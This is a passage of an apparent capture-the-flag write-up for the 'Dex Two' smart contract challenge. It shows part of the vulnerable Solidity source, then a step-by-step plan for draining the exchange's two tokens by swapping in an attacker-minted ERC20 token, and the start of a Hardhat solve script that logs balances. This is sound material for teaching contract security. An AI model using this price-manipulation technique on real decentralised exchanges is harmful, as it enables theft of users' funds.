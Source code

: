 ```solidity
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

### Background

This challange is very similar to the `Dex` challange. The difference here is that we can add an attacker controlled `ERC20` token for which we control the entire supply. The way this `dex` is designed allows us to manipulate the price of the coins.

### Attack

In order to drain both of the two tokens, we first need to create a token we control, then transfer a tiny amount to the `dex` so that the price of the other coins is very low compared to that token (not necessary but why not). Then we buy the other tokens using the attacker controlled token.

* Create an `ERC20` token:
* Transfer a tiny amount to the `dex` compared to the supply of the other tokens
  * This will make sure that a price is set
  * This will make sure that the price of the other tokens is cheap (not necessary buy why not)
* Calculate what amount should be used to buy the full supply of each token and execute each swap


#### dex-two-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function getDexState(dex) {
    token1Balance = await token1.balanceOf(dex.address)
    token2Balance = await token2.balanceOf(dex.address)
    token3Balance = await token3.balanceOf(dex.address)
    console.log("========   DEX   ========")
    console.log("Token1 balance: " + token1Balance)
    console.log("Token2 balance: " + token2Balance)
    console.log("Token3 balance: " + token3Balance)
    console.log("Token1->Token2: " + (token1Balance.eq(0) ? "N/A" : await dex.getSwapAmount(token1.address, token2.address, 1000) / 1000))
    console.log("Token2->Token1: " + (token2Balance.eq(0) ? "N/A" : await dex.getSwapAmount(token2.address, token1.address, 1000) / 1000))
    console.log("Token1->Token3: " + (token1Balance.eq(0) ? "N/A" : await dex.getSwapAmount(token1.address, token3.address, 1000) / 1000))
    console.log("Token3->Token1: " + (token3Balance.eq(0) ? "N/A" : await dex.getSwapAmount(token3.address, token1.address, 1000) / 1000))
```